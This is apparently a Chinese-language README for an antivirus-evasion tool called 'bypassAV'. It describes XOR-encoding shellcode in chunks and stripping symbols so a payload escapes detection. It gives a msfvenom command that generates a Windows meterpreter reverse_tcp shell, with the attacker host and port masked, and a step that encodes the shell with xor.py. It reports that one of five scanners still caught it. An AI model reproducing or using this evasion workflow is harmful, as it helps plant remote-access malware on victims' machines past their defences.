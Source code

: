 # bypassAV
## 简介
* ~~v1.0:破产版免杀，大致思路是将shellcode异或，之后在主程序中解码。关键是清除一些符号信息，采用boy-hack大佬的go-strip~~(6天)
* v1.1:1.0的异或改为分块异或（详见代码）
## 使用方法
msf或者cs生成c#格式的shellcode，粘贴到xor.py的buf当中

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=xxxxxxx lport=xxxx -f csharp
$ python3 xor.py
```

## 免杀效果
5个被查杀了一个
![](scan.png)
![](msf.png)
# Reference 
https://github.com/boy-hack/go-strip